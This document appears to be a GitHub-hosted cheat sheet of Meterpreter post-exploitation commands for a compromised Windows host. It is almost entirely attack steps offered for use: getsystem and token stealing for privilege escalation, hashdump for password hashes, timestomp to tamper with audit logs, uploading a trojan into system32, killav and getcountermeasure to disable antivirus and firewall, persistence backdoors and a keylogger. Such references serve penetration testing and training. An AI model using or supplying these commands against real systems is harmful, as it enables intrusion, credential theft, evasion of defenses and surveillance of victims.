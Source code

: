 # Meterpreter

### Meterpreter Command

Showing running process and their associated user ids: `ps`

Privilege Escalation to Admin:<span style="color:blue">`getsystem`</span>

Show current user name: `getuid`

>`meterpreter > `**`getuid`**

>`Server username: NT AUTHORITY\SYSTEM`

Show current privileges: `getprivs`

Steal Admin: **`steal_token [PID]`**

Incognito \(Similar to `ps`\)

>`meterpreter > `**`use incognito`**

>`meterpreter > `**`list_tokens -u`**

Remove timestamps \(audit log\): `timestomp`

Migrate (migrate to another process on the victim):  `meterpreter > run post/windows/manage/migrate`

hashdump: `meterpreter > run post/windows/gather/hashdump `

upload: `upload evil_trojan.exe c:\\windows\\system32`

### Useful Meterpreter Scripts

Checks to see if you exploited a virtual machine

>`meterpreter > run checkvm`

Checks the security configuration on the victims system and can disable other security measures such as A/V, Firewall, and much more

>`meterpreter > run getcountermeasure`

Enable RDP on a target system if it is disabled

>`meterpreter > run getgui`

The ‘get\_local\_subnets’ script is used to get the local subnet mask of a victim

>`meterpreter > run get_local_subnets`

The ‘gettelnet’ script is used to enable telnet on the victim if it is disabled.

>`meterpreter > run gettelnet -e`

The <span style="color:red">‘killav’</span> script can be used to disable most antivirus programs running as a service on a target.

>`meterpreter > run killav`

The ‘remotewinenum’ script will enumerate system information through wmic on victim. Make note of where the logs are stored.

>`meterpreter > run remotewinenum -u [target username] -p [target pw] -t [target ip]`

The ‘winenum’ script makes for a very detailed windows enumeration tool. It dumps tokens, hashes and much more.

>`meterpreter > run winenum`

The ‘scraper’ script can grab even more system information, including the entire registry.

>`meterpreter > run scraper`

Creating a <span style="color:red">persistent</span> backdoor on a target host.

>`meterpreter > run persistence`

This script will start the Meterpreter Keylogger and save all keys.

>`meterpreter > run keylogrecorder`

